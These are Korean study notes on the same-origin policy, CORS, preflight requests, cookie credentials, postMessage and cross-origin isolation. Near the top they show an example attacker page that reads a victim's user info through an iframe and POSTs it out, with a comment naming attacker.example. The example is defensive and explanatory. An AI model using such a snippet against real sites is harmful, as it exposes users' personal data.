

# Origin에 의한 애플리케이션 간 접근 제한

## 애플리케이션 간 접근 제한 필요성
- 다양한 애플리케이션 콘텐츠 조합 → 다른 콘텐츠를 자신의 웹 애플리케이션에 포함 가능
- 마찬가지로 다른 콘텐츠에서 자신의 애플리케이션 사용 가능
- **민감한 정보가 포함된 데이터가 노출된 위험성 존재**

```html
<html>
<head>
    <title>로그인 사용자 정보</title>
</head>
<body>
    <h1>로그인 사용자 정보</h1>
    <div id="user_info">
        <div id="login_id">
            <div>사용자 ID</div>
            <div>dowoon</div>
        </div>
        <div id="mail">
            <div>메일 주소</div>
            <div>dowoon@mail.com</div>
        </div>
    </div>
</body>
</html>
```

- ifram을 통해 다른 사용자의 로그인 정보를 훔쳐볼 수 있음
```html
<html>
<head>
    <script>
        function load() {
            // 사용자 정보 읽어오기
            const userInfo = frm.document.querySelector("#user_info");
            // 사용자 정보 문자열을 attacker.example 서버로 전송
            fetch("./log", { method: 'POST', body: userInfo.textContent });
        }
    </script>
</head>
<body>
    <div>
        <!--사용자를 속이는 온라인 사이트 콘텐츠-->
    </div>
    <!--사용자 정보를 iframe으로 삽입-->
    <iframe name="frm" onload="load()" src="https://site.example/login_user.html" />
</body>
</html>
```

## 동일 출처 정책에 의한 보호
- 동일 출처 정책은 브라우저에 내장된 접근 제한 방식을 의미 → 출처(origin) 경계 설정

### 출처
- 다른 웹 애플리케이션 간의 접근 제한을 위한 경계를 출처라고 함
```text
https://example.com:443/path/to/index.html
```
- `https://example.com:443` → 출처에 해당
- 웹 애플리케이션의 출처가 같으면 **동일 출처**, 다르면 **교차 출처(cross-origin)**라고 함

### 동일 출처 정책
- default : 동일 출처 정책
- 다음과 같은 경우에 대해 접근 제한 
  1. 자바스크립트를 사용해 교차 출처로 요청 전송
  2. 자바스크립트를 사용해 ifram 내 교차 출처 페이지 접근
  3. 교차 출처의 이미지를 불러오는 `<canvas>` 요소 데이터에 접근
  4. Web Storage와 IndexedDB에 저장된 교차 출처 데이터에 접근

### 동일 출처 정책 예외
1. `<script>`요소에서 자바스크립트 등을 불러오기
2. `<link>`요소에서 CSS를 불러오기
3. ``요소에서 이미지를 불러오기
4. `<iframe>`, `<frame>` 요소에서 페이지 불러오기
5. `<video>`, `<audio>` 요소에서 미디어 불러오기
6. `<object>`, `<embed>` 요소에서 리소스 불러오기
7. `<form>` 요소에서 폼 전송
8. @font-face를 사용한 폰트 불러오기

- 이러한 HTML 요소를 이용해 접근하더라도 CORS, crossorigin 속성 사용시 접근 제한 가능

## CORS
- 출처가 다른 CDN에서 전송된 JS, CSS, 이미지 파일 등의 리소스를 이용할 때도 동일 출처 정책에 의해 로드 실패 가능
- 교차 출처로 접근하기 위해선 출처 간 리소스 공유(cross-origin resource sharing, CORS) 설정 필요

### CORS 방식
- HTTP 응답에 CORS 헤더 포함 시 리소스 접근 가능
- 허가되지 않은 경우 결과 파기

### 단순 요청
- ``, `<link>` 요소 등 리소스를 가져오는 GET, `<form>` 요소를 이용해 GET, POST → 단순 요청
- 단순 요청의 경우 Access-Control-Allow-Origin 헤더를 사용
```text
Access-Control-Allow-Origin: https://example.com
```
- Access-Control-Allow-Origin 헤더에 하나 이상의 출처 지정 X
  - *(와일드 카드) 사용 시 모든 출처의 접근 허용 가능

### Preflight Request
- 단순 요청의 조건을 만족하지 않는 경우 **Preflight Request**가 필요
  - fetch 함수 등에 임의의 HTTP 헤더가 추가
  - PUT, DELETE로 서버 리소스 변경, 삭제
- 브라우저와 서버 간 합의가 이루어져 합의된 요청을 허가한 상태에서만 전송 → **Preflight Request**
- Preflight Request는 OPTIONS 메서드로 전송
```text
OPTIONS /path HTTP/1.1
Host: https://cross-origin.example
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: content-type
Origin: https://example.com
(... 생략)
```
- Preflight Request에 대한 응답은 다음과 같음
```text
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: content-type, authorization, x-requested-with, content-length
Access-Control-Max-Age: 3600
(... 생략)
```
|헤더명| 헤더 설정값                           |
|---|----------------------------------|
|Access-Control-Allow-Origin| 접근을 허가하는 출처                      |
|Access-Control-Allow-Methods| 요청으로 사용할 수 있는 HTTP 메서드 리스트       |
|Access-Control-Allow-Headers| 요청으로 전송 가능한 HTTP 헤더 리스트          |
|Access-Control-Max-Age| Preflight Request 결과를 캐싱하는 시간(초) |

### 쿠키를 포함하는 요청 전송
- 교차 출처의 서버로 쿠키를 전송할 때는 쿠키를 포함하는 요청을 전송한다고 명시해야 함
- `fetch` 함수의 경우 쿠키를 전송하기 위한 `credentials` 속성 사용
```js
fetch("https://example.com", {
    method: "GET",
    credentials: "include" // 쿠키를 포함하는 요청 전송
});
```
|설정 가능한 값| 의미                                      |
|--|-----------------------------------------|
|omit| 쿠키 전송 X, credentials 설정하지 않을 때 default 값 |
|same-origin| 동일 출처만 쿠키 전송                            |
|include| 출처 상관없이 쿠키 전송                           |

- XMLHttpRequest는 `withRCredentials` 속성 사용
```js
const xhr = new XMLHttpRequest();
xhr.open("GET", "https://example.com", true);
xhr.withCredentials = true; // 쿠키를 포함하는 요청 전송
xhr.send();
```

- 쿠키 포함 요청을 교차 출처로 전송 시 서버의 CORS 설정도 필요
  - 서버에서 Access-Control-Allow-Origin 헤더를 전송
```text
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
```
- Access-Control-Allow-Credentials 헤더를 설정하지 않으면 쿠키를 포함한 요청은 파기
- Access-Control-Allow-Origin 헤더에 와일드 카드(*) 사용 불가 → 무조건 명시적인 출처 지정

### CORS 요청 모드
- JS에서 요청을 보낼 때 CORS 설정 가능 → `fetch`함수의 `mode` 속성 사용
```js
fetch('https://example.com', {mode: 'cors'});
```
| 요청 모드       | 의미                                                     |
|-------------|--------------------------------------------------------|
| cors        | CORS 설정되어 있지 않거나 위반하는 요청 전송 시 에러 발생 ( 모드 생략 시 default) |
| no-cors     | 교차 출처로 요청은 단순 요청으로만 제한                                 |
| same-origin | 교차 출처에 요청이 전송되지 않고 에러 발생                               |

### crossorigin 속성을 사용하는 CORS 요청
- ``, `<script>` 등의 HTML 요소를 사용하는 요청의 경우,
  - 동일 출처 시 → same-origin
  - 교차 출처 시 → no-cors
- **HTML 요소도 crossorigin 속성 부여 시 cors 모드로 요청 전송 가능**
```html
<!--no-cors 요청 모드-->


<!--cors 요청 모드-->

```
- crossorigin 속성을 지정하는 값에 따라 쿠키의 전송 제한 가능

| crossorigin 지정                | feetch 함수의 credentials | 쿠키 전송 범위      |
|-------------------------------|------------------------|---------------|
| crossorigin=""                | same-origin            | 동일 출처만 쿠키 전송  |
| crossorigin="use-credentials" | include                | 출처 상관없이 쿠키 전송 |
| crossorigin="anonymous"       | omit                   | 쿠키 전송 X       |

- crossorigin 속성은 동일 추처 정책에 따른 기능 제한 완화를 위해 사용
- cors 모드 지정 시 이전과 달리 이미지를 canvas로 불러오는 것이 가능
```html
<canvas id="imgcanvas"/>
<script>
  window.onload = function () {
    const canvas = document.getElementById("imgcanvas");  
    const ctx = canvas.getContext("2d");
    const img = new Image();
    img.src = "https://cross-origin.com/image.png";
    img.crossOrigin = "anonymous"; // crossorigin 속성 설정
    img.onload = function () { ... } // 이미지 로드 성공!
  };
</script>
```

## postMessage를 사용해 iframe으로 데이터 전송
- 일반적으로 iframe 내에서 교차 출처 페이지, 데이터 송수신은 동일 출처 정책에 따라 제한
- iframe 내 교차 출처 페이지를 신뢰할 수 있을 때 데이터의 송수신이 필요할 때도 있음 → `postMessage` 사용
```js
const frame = document.querySelector("iframe");
frame.contentWindow.postMessage("Hello, World!", frame.src);
```
- 수신 측은 아래와 같이 수신 가능
```js
window.addEventListener('message', (event) => {
    // message 전송 측 출처 체크
  if (event.origin !== "https://bob.blog.example") {
      // 허가되지 않은 출처에서 message 수신 시 처리 종료
      return;
  }
  alert(`bob의 메시지 : ${event.data}`);
  
  // 전송 측 페이지로 메시지도 반환할 수 있음
  event.source.postMessage("Hello, Bob!");
})
```

## 프로세스 분리에 따른 사이드 채널 공격 대책
- **사이드 채널 공격**: 동일 출처 정책으로는 막을 수 없는 하드웨어(CPU, RAM 등)등에 대한 공격

### Site Isolation
- Spectre(스펙터): CPU 아키텍처의 취약성을 악용한 공격 방법
  - 정밀한 타이머로 계속 같은 작업 반복 → 조금씩 메모리 내용 추측
- Chromium의 프로세스 아키텍처의 경우 사이트라는 단위로 프로세스 분리 → **Site Isolation**

- 사이트는 출처가 아닌 **eTLD+1(Effective Top Level Domain + 1)** 단위로 프로세스 분리
  - eTLD는 .com, .kr등의 TLD뿐만 아니라 co.kr, github.io 등의 도메인 포함
- **Site Isolation으로 브러우저가 iframe을 통해 다른 사이트의 메모리 데이터에 접근하는 것을 막을 수 O**

### 출처마다 프로세스 분리
- Site Isolation으로 출처 단위의 사이드 채널 공격은 막을 수 없음
- **Cross-Origin Isolation**: 출처마다 프로세스를 분리하는 구조
- Cross-Origin Isolation은 웹 애플리케이션의 개발자가 다음과 같은 방법으로 임의로 활성화 가능
  1. CORP(Cross-Origin-Resource-Policy)
  2. COEP(Cross-Origin-Embedder-Policy)
  3. COOP(Cross-Origin-Opener-Policy)

#### CORP
- 헤더가 지정된 리소를 가져올 때 동일 출처 혹은 동일 사이트로 제한

#### COEP
- 페이지의 모든 리소스에 CORP 또는 CORS  헤더의 설정을 강제

#### COOP
- `<a>`요소와 `window.open` 메서드로 오픈한 교차 출처 페이지의 접근 제한
